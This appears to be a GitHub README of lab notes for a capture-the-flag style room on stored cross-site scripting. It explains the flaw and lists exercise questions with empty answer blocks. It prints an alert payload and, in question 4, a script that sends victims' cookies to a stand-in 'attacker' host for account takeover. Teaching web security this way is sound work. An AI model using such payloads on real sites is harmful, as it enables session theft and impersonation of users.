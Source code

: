 # Stored XSS

**To see which HTML/JavaScript payloads are being used to do the task please refer [this folder](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/tree/main/03%20-%20Stored%20XSS/Sample%20Payloads).** <br>
- Stored cross-site scripting is the most dangerous type of XSS. This is where a malicious string originates from the website's database. This often happens when a website allows user input that is ***not sanitised*** (remove the **"bad parts"** of a user's input) when inserted into the database.
   
  ![Screenshot (820)](https://user-images.githubusercontent.com/63872951/183843240-6955d1d5-1a23-42e6-8be3-67dbf8544db7.png)
 
- A attacker creates a payload in a field when signing up to a website that is stored in the websites database. 
- If the website doesn't properly sanitise that field, when the site displays that field on the page, it will execute the payload **to everyone** who visits it. 
- The payload could be as simple as `<script>alert(1)</script>`
- However, this payload won't just execute in your browser but any other browsers that display the malicious data inserted into the database.


# Answer the questions below

- The machine you deployed earlier will guide you though exploiting some cool vulnerabilities, stored XSS has to offer. There are hints for answering these questions on the machine.

1. Add a comment and see if you can insert some of your own HTML.

Doing so will reveal the answer to this question.
```

```
2. Create an alert popup box appear on the page with your document cookies.
```

```
3. Change "XSS Playground" to "I am a hacker" by adding comments and using Javascript.
```

```
4. Stored XSS can be used to steal a victims cookie (data on a machine that authenticates a user to a webserver). This can be done by having a victims browser parse the following Javascript code:

   `<script>window.location='http://attacker/?cookie='+document.cookie</script>`

   This script navigates the users browser to a different URL, this new request will includes a victims cookie as a query parameter. When the attacker has acquired the cookie, they can use it to impersonate the victim. 

   Take over Jack's account by stealing his cookie, what was his cookie value?
```

```
5. Post a comment as Jack.
```

```
